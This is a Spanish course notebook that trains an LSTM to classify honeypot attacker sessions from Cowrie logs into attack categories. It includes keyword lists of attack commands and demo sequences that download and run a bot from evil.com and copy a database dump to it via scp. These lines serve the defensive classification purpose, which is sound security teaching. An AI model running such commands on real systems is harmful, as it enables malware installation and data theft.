# 🛡️ Clasificación de Ataques en Honeypots con Data Augmentation
**Asignatura: Seguridad de la Información**

Pipeline completo:
1. Carga y etiquetado de **todas** las sesiones reales de Cowrie
2. **Data Augmentation** (4 técnicas) para pasar de 579 → 3000 sesiones balanceadas
3. Tokenización y preparación del dataset
4. Entrenamiento LSTM con class weights
5. Evaluación: Accuracy, Perplexity, Precision, Recall, Matriz de Confusión

In [ ]:
# Ejecutar solo la primera vez
!pip install torch torchvision torchaudio --index-url https://download.pytorch.org/whl/cpu -q -q
print("✅ Dependencias instaladas")

✅ Dependencias instaladas


In [1]:
import json
import os
import re
import math
import random
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
from collections import Counter, defaultdict
from sklearn.model_selection import train_test_split
from sklearn.metrics import precision_score, recall_score, classification_report, confusion_matrix
import torch
import torch.nn as nn
from torch.utils.data import Dataset, DataLoader

SEED = 42
random.seed(SEED)
np.random.seed(SEED)
torch.manual_seed(SEED)

LOG_FILE    = 'cowrie.json'
MAX_SEQ_LEN = 20
MIN_FREQ    = 2        # Con 3000 sesiones ya tiene sentido filtrar tokens raros
BATCH_SIZE  = 64
EMBED_DIM   = 64
HIDDEN_DIM  = 128
NUM_LAYERS  = 2
DROPOUT          = 0.5        # ↑ más regularización
EPOCHS           = 80         # más épocas, early stopping decide cuándo parar
LR               = 5e-4       # LR más conservador
WEIGHT_DECAY     = 1e-4       # ↑ L2 regularization (era 1e-5)
PATIENCE         = 10         # early stopping: para si val_loss no mejora en 10 épocas
TARGET_POR_CLASE = 700        # más datos sintéticos por clase
DEVICE = torch.device('cuda' if torch.cuda.is_available() else 'cpu')
print(f'Usando dispositivo: {DEVICE}')

Usando dispositivo: cuda


✅ Eventos cargados: 8176

📌 Sesiones ÚNICAS reales por clase (Sin clones):
   Escalada de Privilegios        →   49
   Robo de Datos                  →   54
   Persistencia/Backdoor          →   54
   Descarga Malware/Botnet        →   67
   Destrucción/Ransomware         →   77
   Reconocimiento/Escaneo         →  154
   TOTAL UNICAS                   →  455

🔀 Dividiendo dataset original para blindar el Test Set...
   Train: 318 | Val: 68 | Test: 69

🔄 Aplicando data augmentation SOLO en Train (objetivo: 700 sesiones/clase)...

📊 Resultado del augmentation en Train:
   Escalada de Privilegios           34 →  700  (×20.6)
   Robo de Datos                     38 →  700  (×18.4)
   Persistencia/Backdoor             38 →  700  (×18.4)
   Descarga Malware/Botnet           47 →  700  (×14.9)
   Destrucción/Ransomware            54 →  700  (×13.0)
   Reconocimiento/Escaneo           107 →  700  (×6.5)
   TOTAL TRAIN                      318 → 4200  (×13.2)




In [2]:
# ── 1. CARGA Y ETIQUETADO ──────────────────────────────────────────────────
import json
import os
import re
from collections import defaultdict, Counter

def cargar_logs_cowrie(filepath):
    eventos = []
    with open(filepath, 'r', encoding='utf-8') as f:
        for linea in f:
            linea = linea.strip()
            if not linea: continue
            try: eventos.append(json.loads(linea))
            except: pass
    return eventos

def limpiar_comando(cmd):
    cmd = str(cmd).lower().strip()
    cmd = re.sub(r'https?://\S+', '<URL>', cmd)
    cmd = re.sub(r'\b(?:\d{1,3}\.){3}\d{1,3}\b', '<IP>', cmd)
    cmd = re.sub(r'\b\d{5,}\b', '<NUM>', cmd)
    cmd = re.sub(r'\s+', ' ', cmd).strip()
    return cmd[:120]

def etiquetar_sesion(comandos):
    texto = ' '.join(comandos).lower()
    if any(x in texto for x in ['btc','rm -rf','dd if=','iptables -f','sysrq','chattr']):
        return 'Destrucción/Ransomware'
    if any(x in texto for x in ['tar ','zip ','mysqldump','exfil','scp ','.env']):
        return 'Robo de Datos'
    if any(x in texto for x in ['useradd','crontab','authorized_keys','rc.local','bashrc','systemctl enable']):
        return 'Persistencia/Backdoor'
    if any(x in texto for x in ['wget','curl','tftp','xmrig','pastebin']):
        return 'Descarga Malware/Botnet'
    if any(x in texto for x in ['sudo -l','gcc','chmod 777 /etc','getcap','docker run']):
        return 'Escalada de Privilegios'
    return 'Reconocimiento/Escaneo'

eventos = cargar_logs_cowrie(LOG_FILE)
print(f'✅ Eventos cargados: {len(eventos)}')

sesiones_raw = defaultdict(list)
for e in eventos:
    if e.get('eventid') == 'cowrie.command.input':
        cmd = e.get('input','').strip()
        if cmd:
            sesiones_raw[e.get('session')].append(limpiar_comando(cmd))

# --- AQUÍ ESTÁ EL ARREGLO: EL FILTRO ANTI-CLONES ---
por_clase = defaultdict(list)
sesiones_vistas = set() 

for cmds in sesiones_raw.values():
    if len(cmds) >= 1:
        firma_sesion = tuple(cmds) # Convertimos a tupla para poder buscar duplicados
        if firma_sesion not in sesiones_vistas:
            sesiones_vistas.add(firma_sesion)
            por_clase[etiquetar_sesion(cmds)].append(cmds)
# ----------------------------------------------------

print(f'\n📌 Sesiones ÚNICAS reales por clase (Sin clones):')
for clase, slist in sorted(por_clase.items(), key=lambda x: len(x[1])):
    print(f'   {clase:<30} → {len(slist):>4}')
print(f'   {"TOTAL UNICAS":<30} → {sum(len(v) for v in por_clase.values()):>4}')

# ── 2. DATA AUGMENTATION Y SPLIT (SIN DATA LEAKAGE) ────────────────────────
from sklearn.model_selection import train_test_split
import random
import matplotlib.pyplot as plt

RUIDO_GENERICO = [
    'ls', 'ls -la', 'pwd', 'clear', 'history', 'date', 'uptime',
    'who', 'w', "echo ''", 'cd /tmp', 'cd ..', 'cd ~', 'uname -a',
    'id', 'whoami', 'cat /etc/issue', 'hostname', ''
]

SINONIMOS = {
    'wget <URL>':      ['curl -O <URL>', 'curl -s <URL> -o payload'],
    'curl -o <URL>':   ['wget -q <URL>', 'wget <URL>'],
    'cat /etc/passwd': ['less /etc/passwd', 'more /etc/passwd', 'head /etc/passwd'],
    'uname -a':        ['uname -r', 'uname -s -m', 'cat /proc/version'],
    'ls -la':          ['ls -lah', 'll', 'ls -l'],
    'ps aux':          ['ps -ef', 'top -bn1'],
    'ifconfig':        ['ip a', 'ip addr'],
    'cd /tmp':         ['cd /var/tmp', 'cd /dev/shm'],
    'exit':            ['logout', 'exot'],
}

KEYWORDS_CLASE = {
    'Descarga Malware/Botnet':   ['wget','curl','tftp','xmrig','pastebin'],
    'Robo de Datos':             ['tar ','zip ','mysqldump','exfil','scp ','.env'],
    'Persistencia/Backdoor':     ['useradd','crontab','authorized_keys','rc.local','bashrc','systemctl enable'],
    'Escalada de Privilegios':   ['sudo -l','gcc','chmod 777 /etc','getcap','docker run'],
    'Destrucción/Ransomware':    ['btc','rm -rf','dd if=','iptables -f','sysrq','chattr'],
    'Reconocimiento/Escaneo':    [],  
}

def augmentar(cmds, tecnica):
    """Tus 4 técnicas de augmentation intactas"""
    cmds = list(cmds)
    if tecnica == 'insertion' and len(cmds) < 15:
        for _ in range(random.randint(1, 3)):
            cmds.insert(random.randint(0, len(cmds)), random.choice(RUIDO_GENERICO))
    elif tecnica == 'deletion' and len(cmds) > 2:
        candidatos = [i for i, c in enumerate(cmds)
                      if c in RUIDO_GENERICO or c in ('exit','logout','clear','ls','pwd')]
        if candidatos:
            cmds.pop(random.choice(candidatos))
        elif len(cmds) > 3:
            cmds.pop(random.randint(1, len(cmds)-2))
    elif tecnica == 'swap' and len(cmds) > 2:
        idx = random.randint(0, len(cmds)-3)
        cmds[idx], cmds[idx+1] = cmds[idx+1], cmds[idx]
    elif tecnica == 'synonym':
        cmds = [next((c.replace(orig, random.choice(alts))
                      for orig, alts in SINONIMOS.items()
                      if orig in c and random.random() < 0.6), c)
                for c in cmds]
    return cmds

def sesion_valida_para_clase(cmds, clase):
    keywords = KEYWORDS_CLASE[clase]
    if not keywords: return True
    texto = ' '.join(cmds).lower()
    return any(kw in texto for kw in keywords)

# --- 1. EL SPLIT SAGRADO ---
print("\n🔀 Dividiendo dataset original para blindar el Test Set...")
X_orig, y_orig = [], []
for clase, secuencias in por_clase.items():
    for seq in secuencias:
        X_orig.append(seq)
        y_orig.append(clase)

X_train_raw, X_temp, y_train_raw, y_temp = train_test_split(
    X_orig, y_orig, test_size=0.30, random_state=42, stratify=y_orig
)
X_val_raw, X_test_raw, y_val_raw, y_test_raw = train_test_split(
    X_temp, y_temp, test_size=0.50, random_state=42, stratify=y_temp
)

print(f"   Train: {len(X_train_raw)} | Val: {len(X_val_raw)} | Test: {len(X_test_raw)}")

# Agrupamos SOLO el Train para procesarlo
por_clase_train = defaultdict(list)
for x, y in zip(X_train_raw, y_train_raw):
    por_clase_train[y].append(x)

# --- 2. AUGMENTATION SOLO AL TRAIN ---
TECNICAS = ['insertion', 'deletion', 'swap', 'synonym']
dataset_train_aumentado = {}

print(f'\n🔄 Aplicando data augmentation SOLO en Train (objetivo: {TARGET_POR_CLASE} sesiones/clase)...')
for clase, sesiones_orig in por_clase_train.items():
    pool = list(sesiones_orig)
    intentos = 0
    max_intentos = (TARGET_POR_CLASE - len(pool)) * 15
    while len(pool) < TARGET_POR_CLASE and intentos < max_intentos:
        aumentada = augmentar(random.choice(sesiones_orig), random.choice(TECNICAS))
        if sesion_valida_para_clase(aumentada, clase) and aumentada not in pool:
            pool.append(aumentada)
        intentos += 1
    dataset_train_aumentado[clase] = pool

# Aplanamos el resultado aumentado para PyTorch
X_train_aug, y_train_aug = [], []
for clase, secuencias in dataset_train_aumentado.items():
    for seq in secuencias:
        X_train_aug.append(seq)
        y_train_aug.append(clase)

print('\n📊 Resultado del augmentation en Train:')
total_orig_train = sum(len(v) for v in por_clase_train.values())
total_aug_train  = sum(len(v) for v in dataset_train_aumentado.values())
for clase in sorted(dataset_train_aumentado, key=lambda x: len(por_clase_train[x])):
    orig = len(por_clase_train[clase])
    aug  = len(dataset_train_aumentado[clase])
    print(f'   {clase:<30}  {orig:>4} → {aug:>4}  (×{aug/orig:.1f})')
print(f'   {"TOTAL TRAIN":<30}  {total_orig_train:>4} → {total_aug_train:>4}  (×{total_aug_train/total_orig_train:.1f})')

# --- 3. GRÁFICA COMPARATIVA ---
clases = list(dataset_train_aumentado.keys())
orig_counts = [len(por_clase_train[c]) for c in clases]
aug_counts  = [len(dataset_train_aumentado[c]) for c in clases]
x = range(len(clases))
fig, ax = plt.subplots(figsize=(12, 5))
ax.bar([i-0.2 for i in x], orig_counts, width=0.4, label='Train Original', color='#e74c3c', alpha=0.85)
ax.bar([i+0.2 for i in x], aug_counts,  width=0.4, label='Train Aumentado', color='#2ecc71', alpha=0.85)
ax.set_xticks(list(x))
ax.set_xticklabels([c.replace('/','/\n') for c in clases], rotation=10, ha='right')
ax.set_ylabel('Nº de sesiones')
ax.set_title('Balanceo del Train Set mediante Data Augmentation')
ax.legend()
ax.grid(axis='y', alpha=0.3)
plt.tight_layout()
plt.savefig('augmentation_comparativa.png', dpi=150)
plt.show()

In [3]:
class Vocabulario:
    PAD = '<PAD>'
    UNK = '<UNK>'
    def __init__(self, min_freq=2):
        self.min_freq = min_freq
        self.token2idx = {self.PAD: 0, self.UNK: 1}
        self.idx2token = {0: self.PAD, 1: self.UNK}
    def construir(self, secuencias):
        contador = Counter(cmd for seq in secuencias for cmd in seq)
        for token, freq in contador.items():
            if freq >= self.min_freq and token not in self.token2idx:
                idx = len(self.token2idx)
                self.token2idx[token] = idx
                self.idx2token[idx] = token
        return self
    def encode(self, token): return self.token2idx.get(token, 1)
    def decode(self, idx):   return self.idx2token.get(idx, self.UNK)
    def __len__(self):       return len(self.token2idx)

# Diccionario de clases (usando las etiquetas extraídas previamente)
clases_ataque = sorted(list(set(y_orig)))
label2idx = {label: idx for idx, label in enumerate(clases_ataque)}
idx2label = {idx: label for label, idx in label2idx.items()}

# Construir Vocabulario ÚNICAMENTE con los datos de Train (para evitar Data Leakage)
vocab = Vocabulario(min_freq=MIN_FREQ)
vocab.construir(X_train_aug)

# Función para aplicar el padding y codificar a números
def codificar_conjunto(X_datos, y_datos):
    pad_idx = vocab.encode(Vocabulario.PAD)
    X_enc, y_enc = [], []
    for cmds, etiqueta in zip(X_datos, y_datos):
        encoded = [vocab.encode(c) for c in cmds]
        encoded = encoded[-MAX_SEQ_LEN:] if len(encoded) >= MAX_SEQ_LEN \
                  else [pad_idx] * (MAX_SEQ_LEN - len(encoded)) + encoded
        X_enc.append(encoded)
        y_enc.append(label2idx[etiqueta])
    return np.array(X_enc, dtype=np.int64), np.array(y_enc, dtype=np.int64)

# Codificamos los 3 conjuntos ya separados en la Celda 2
X_train, y_train = codificar_conjunto(X_train_aug, y_train_aug)
X_val, y_val     = codificar_conjunto(X_val_raw, y_val_raw)
X_test, y_test   = codificar_conjunto(X_test_raw, y_test_raw)

# Class weights para las clases que no llegaron a TARGET_POR_CLASE
class_counts = np.bincount(y_train)
class_weights = torch.tensor(1.0 / (class_counts + 1e-6), dtype=torch.float).to(DEVICE)
class_weights = class_weights / class_weights.sum() * len(class_counts)

class CowrieDataset(Dataset):
    def __init__(self, X_data, y_data):
        self.X = torch.tensor(X_data, dtype=torch.long)
        self.y = torch.tensor(y_data, dtype=torch.long)
    def __len__(self): return len(self.X)
    def __getitem__(self, idx): return self.X[idx], self.y[idx]

train_loader = DataLoader(CowrieDataset(X_train, y_train), batch_size=BATCH_SIZE, shuffle=True)
val_loader   = DataLoader(CowrieDataset(X_val,   y_val),   batch_size=BATCH_SIZE)
test_loader  = DataLoader(CowrieDataset(X_test,  y_test),  batch_size=BATCH_SIZE)

print(f'✅ Vocabulario construido: {len(vocab)} tokens')
print(f'✅ DataLoaders listos.')
print(f'   Train: {len(X_train)} | Val: {len(X_val)} | Test: {len(X_test)}')

✅ Vocabulario construido: 155 tokens
✅ DataLoaders listos.
   Train: 4200 | Val: 68 | Test: 69


In [4]:
class LSTMClassifier(nn.Module):
    def __init__(self, vocab_size, num_classes, embed_dim, hidden_dim, num_layers, dropout, pad_idx):
        super().__init__()
        self.embedding = nn.Embedding(vocab_size, embed_dim, padding_idx=pad_idx)
        self.lstm = nn.LSTM(
            input_size=embed_dim,
            hidden_size=hidden_dim,
            num_layers=num_layers,
            batch_first=True,
            dropout=dropout if num_layers > 1 else 0.0  # dropout entre capas LSTM
        )
        self.dropout    = nn.Dropout(dropout)
        self.batch_norm = nn.BatchNorm1d(hidden_dim)    # normaliza antes del clasificador
        self.fc         = nn.Linear(hidden_dim, num_classes)

    def forward(self, x):
        emb = self.dropout(self.embedding(x))
        out, _ = self.lstm(emb)
        # Promedio de todos los estados ocultos (más robusto que solo el último)
        last = out.mean(dim=1)
        last = self.batch_norm(last)
        logits = self.fc(self.dropout(last))
        return logits

model = LSTMClassifier(
    vocab_size  = len(vocab),
    num_classes = len(clases_ataque),
    embed_dim   = EMBED_DIM,
    hidden_dim  = HIDDEN_DIM,
    num_layers  = NUM_LAYERS,
    dropout     = DROPOUT,
    pad_idx     = vocab.encode(Vocabulario.PAD)
).to(DEVICE)

n_params = sum(p.numel() for p in model.parameters() if p.requires_grad)
print(f"✅ Modelo LSTM creado con {n_params:,} parámetros entrenables")

✅ Modelo LSTM creado con 242,374 parámetros entrenables


In [5]:
criterion = nn.CrossEntropyLoss(weight=class_weights, label_smoothing=0.1)  # label smoothing anti-overfit
optimizer = torch.optim.AdamW(model.parameters(), lr=LR, weight_decay=WEIGHT_DECAY)  # AdamW > Adam para regularización
scheduler = torch.optim.lr_scheduler.ReduceLROnPlateau(
    optimizer, mode='min', factor=0.5, patience=5, min_lr=1e-6)  # patience más bajo, mínimo de LR

def run_epoch(model, loader, criterion, optimizer=None, training=True):
    model.train() if training else model.eval()
    total_loss, total_correct, total_samples = 0.0, 0, 0
    ctx = torch.enable_grad() if training else torch.no_grad()
    with ctx:
        for X_batch, y_batch in loader:
            X_batch, y_batch = X_batch.to(DEVICE), y_batch.to(DEVICE)
            logits = model(X_batch)
            loss   = criterion(logits, y_batch)
            if training:
                optimizer.zero_grad()
                loss.backward()
                nn.utils.clip_grad_norm_(model.parameters(), max_norm=1.0)
                optimizer.step()
            preds = logits.argmax(dim=1)
            total_correct  += (preds == y_batch).sum().item()
            total_samples  += y_batch.size(0)
            total_loss     += loss.item() * y_batch.size(0)
    return total_loss / total_samples, total_correct / total_samples

print('✅ Optimizador y motor de entrenamiento listos')

✅ Optimizador y motor de entrenamiento listos


In [6]:
historia = {'train_loss': [], 'val_loss': [], 'train_acc': [], 'val_acc': []}
mejor_val_loss  = float('inf')
best_model_path = 'lstm_clasificador_best.pt'
epocas_sin_mejora = 0  # contador para early stopping

print(f'🚀 Entrenando hasta {EPOCHS} épocas en {DEVICE} (early stopping patience={PATIENCE})...\n')
print(f'{"Época":>6} | {"Train Loss":>10} | {"Val Loss":>10} | {"Train Acc":>10} | {"Val Acc":>10} | {"Gap":>8}')
print('-' * 72)

for epoch in range(1, EPOCHS + 1):
    train_loss, train_acc = run_epoch(model, train_loader, criterion, optimizer, training=True)
    val_loss,   val_acc   = run_epoch(model, val_loader,   criterion, training=False)
    scheduler.step(val_loss)

    historia['train_loss'].append(train_loss)
    historia['val_loss'].append(val_loss)
    historia['train_acc'].append(train_acc)
    historia['val_acc'].append(val_acc)

    gap = train_loss - val_loss  # gap negativo grande = overfitting
    if val_loss < mejor_val_loss:
        mejor_val_loss    = val_loss
        epocas_sin_mejora = 0
        torch.save(model.state_dict(), best_model_path)
        marcador = ' ✅ mejor'
    else:
        epocas_sin_mejora += 1
        marcador = f' ({epocas_sin_mejora}/{PATIENCE})'

    if epoch % 5 == 0 or epoch == 1:
        print(f'{epoch:>6} | {train_loss:>10.4f} | {val_loss:>10.4f} | '
              f'{train_acc:>10.4f} | {val_acc:>10.4f} | {gap:>+8.4f}{marcador}')

    # ── Early Stopping ──────────────────────────────────────────────────
    if epocas_sin_mejora >= PATIENCE:
        print(f'\n⛔ Early stopping en época {epoch} (sin mejora en {PATIENCE} épocas consecutivas)')
        break

print(f'\n✅ Entrenamiento completado. Mejor val_loss: {mejor_val_loss:.4f}')

🚀 Entrenando hasta 80 épocas en cuda (early stopping patience=10)...

 Época | Train Loss |   Val Loss |  Train Acc |    Val Acc |      Gap
------------------------------------------------------------------------
     1 |     1.3955 |     1.3996 |     0.5024 |     0.6029 |  -0.0041 ✅ mejor
     5 |     0.6993 |     0.5390 |     0.9198 |     0.9853 |  +0.1604 ✅ mejor
    10 |     0.5741 |     0.4829 |     0.9802 |     1.0000 |  +0.0911 ✅ mejor
    15 |     0.5338 |     0.4892 |     0.9905 |     1.0000 |  +0.0445 (1/10)
    20 |     0.5119 |     0.4701 |     0.9967 |     1.0000 |  +0.0418 (2/10)
    25 |     0.5016 |     0.4823 |     0.9967 |     1.0000 |  +0.0193 (2/10)
    30 |     0.4888 |     0.4730 |     0.9983 |     1.0000 |  +0.0159 (7/10)
    35 |     0.4836 |     0.4639 |     0.9990 |     1.0000 |  +0.0197 (3/10)
    40 |     0.4818 |     0.4682 |     0.9986 |     1.0000 |  +0.0136 (1/10)
    45 |     0.4747 |     0.4556 |     0.9983 |     1.0000 |  +0.0191 ✅ mejor
    50 |     



In [7]:
fig, axes = plt.subplots(1, 2, figsize=(14, 5))

axes[0].plot(historia["train_loss"], label="Train", color="steelblue")
axes[0].plot(historia["val_loss"],   label="Validación", color="coral")
axes[0].set_xlabel("Época")
axes[0].set_ylabel("Cross-Entropy Loss")
axes[0].set_title("Curva de pérdida (Loss)")
axes[0].legend()
axes[0].grid(True, alpha=0.3)

axes[1].plot(historia["train_acc"], label="Train", color="steelblue")
axes[1].plot(historia["val_acc"],   label="Validación", color="coral")
axes[1].set_xlabel("Época")
axes[1].set_ylabel("Accuracy")
axes[1].set_title("Curva de precisión (Accuracy)")
axes[1].legend()
axes[1].grid(True, alpha=0.3)

plt.suptitle("Entrenamiento SIEM — Clasificador de Ataques LSTM", fontsize=13, fontweight="bold")
plt.tight_layout()
plt.savefig("curvas_entrenamiento_clasificacion.png", dpi=150)
plt.show()

📊 MÉTRICAS FINALES EN TEST SET
   Loss        : 0.4512
   Perplexity  : 1.57
   Accuracy    : 100.00%
   Precision   : 100.00% (Macro)
   Recall      : 100.00% (Macro)




In [8]:
model.load_state_dict(torch.load(best_model_path, map_location=DEVICE))

def evaluar_completo(model, loader, criterion):
    model.eval()
    all_preds, all_labels = [], []
    total_loss, total_samples = 0.0, 0
    with torch.no_grad():
        for X_batch, y_batch in loader:
            X_batch, y_batch = X_batch.to(DEVICE), y_batch.to(DEVICE)
            logits = model(X_batch)
            loss   = criterion(logits, y_batch)
            preds  = logits.argmax(dim=1)
            all_preds.extend(preds.cpu().numpy())
            all_labels.extend(y_batch.cpu().numpy())
            total_loss    += loss.item() * y_batch.size(0)
            total_samples += y_batch.size(0)
    avg_loss   = total_loss / total_samples
    perplexity = math.exp(min(avg_loss, 20))
    accuracy   = np.mean(np.array(all_preds) == np.array(all_labels))
    precision  = precision_score(all_labels, all_preds, average='macro', zero_division=0)
    recall     = recall_score(all_labels, all_preds, average='macro', zero_division=0)
    return {'loss': avg_loss, 'perplexity': perplexity, 'accuracy': accuracy,
            'precision': precision, 'recall': recall,
            'preds': all_preds, 'labels': all_labels}

resultados = evaluar_completo(model, test_loader, criterion)
print('📊 MÉTRICAS FINALES EN TEST SET')
print('=' * 42)
print(f"   Loss        : {resultados['loss']:.4f}")
print(f"   Perplexity  : {resultados['perplexity']:.2f}")
print(f"   Accuracy    : {resultados['accuracy']*100:.2f}%")
print(f"   Precision   : {resultados['precision']*100:.2f}% (Macro)")
print(f"   Recall      : {resultados['recall']*100:.2f}% (Macro)")

# Matriz de confusión
cm = confusion_matrix(resultados['labels'], resultados['preds'])
fig, ax = plt.subplots(figsize=(9, 7))
sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
            xticklabels=clases_ataque, yticklabels=clases_ataque, ax=ax)
ax.set_xlabel('Predicción')
ax.set_ylabel('Real')
ax.set_title('Matriz de Confusión — Clasificador de Ataques')
plt.xticks(rotation=20, ha='right')
plt.yticks(rotation=0)
plt.tight_layout()
plt.savefig('matriz_confusion.png', dpi=150)
plt.show()


In [9]:
print('📋 Informe detallado por tipo de ataque:')
print(classification_report(
    resultados['labels'], resultados['preds'],
    target_names=clases_ataque, zero_division=0
))

📋 Informe detallado por tipo de ataque:
                         precision    recall  f1-score   support

Descarga Malware/Botnet       1.00      1.00      1.00        10
 Destrucción/Ransomware       1.00      1.00      1.00        12
Escalada de Privilegios       1.00      1.00      1.00         7
  Persistencia/Backdoor       1.00      1.00      1.00         8
 Reconocimiento/Escaneo       1.00      1.00      1.00        24
          Robo de Datos       1.00      1.00      1.00         8

               accuracy                           1.00        69
              macro avg       1.00      1.00      1.00        69
           weighted avg       1.00      1.00      1.00        69



In [10]:
def predecir_intencion(model, vocab, idx2label, comandos, seq_len=MAX_SEQ_LEN, device=DEVICE):
    model.eval()
    encoded = [vocab.encode(limpiar_comando(c)) for c in comandos]
    encoded = encoded[-seq_len:] if len(encoded) >= seq_len \
              else [vocab.encode(Vocabulario.PAD)] * (seq_len - len(encoded)) + encoded
    x = torch.tensor([encoded], dtype=torch.long).to(device)
    with torch.no_grad():
        probs = torch.softmax(model(x)[0], dim=0)
    top_probs, top_indices = probs.topk(3)
    print(f'🔍 Secuencia: {comandos}')
    print(f'🚨 Intención detectada:')
    for idx, prob in zip(top_indices, top_probs):
        barra = '█' * int(prob.item() * 30)
        print(f'   {prob.item()*100:5.1f}% {barra} {idx2label[idx.item()]}')
    print()

demos = [
    ['whoami', 'uname -a', 'cat /etc/os-release'],
    ['cd /tmp', 'wget http://evil.com/bot', 'chmod +x bot', './bot'],
    ['sudo -l', 'find / -perm -4000'],
    ['mysqldump -u root -p123456 db_name > dump.sql', 'scp dump.sql hacker@evil.com:/tmp/'],
    ['useradd -m -s /bin/bash sysadmin', 'echo crontab -l'],
]
for demo in demos:
    predecir_intencion(model, vocab, idx2label, demo)

# ── Guardar artefactos ─────────────────────────────────────────────────────
import pickle, json as _json
with open('vocab_honeypot.pkl', 'wb') as f:
    pickle.dump(vocab, f)
torch.save(model.state_dict(), 'lstm_clasificador_final.pt')

resumen = {
    'sesiones_originales': sum(len(v) for v in por_clase.values()),
    # CORRECCIÓN: Actualizado para usar la nueva variable del split
    'sesiones_train_aumentadas': sum(len(v) for v in dataset_train_aumentado.values()),
    'vocab_size': len(vocab),
    'num_clases': len(clases_ataque),
    'distribucion_train_aumentada': {k: len(v) for k, v in dataset_train_aumentado.items()},
    'test_accuracy':   round(resultados['accuracy'], 4),
    'test_precision':  round(resultados['precision'], 4),
    'test_recall':     round(resultados['recall'], 4),
    'test_perplexity': round(resultados['perplexity'], 2),
}

with open('metricas_finales.json', 'w') as f:
    _json.dump(resumen, f, indent=2, ensure_ascii=False)

print('✅ Artefactos guardados: vocab_honeypot.pkl, lstm_clasificador_final.pt, metricas_finales.json')
print('✅ Gráficas listas para la presentación.')
print()
print('📋 Resumen Final:')
for k, v in resumen.items():
    if not isinstance(v, dict):
        print(f'   {k}: {v}')

🔍 Secuencia: ['whoami', 'uname -a', 'cat /etc/os-release']
🚨 Intención detectada:
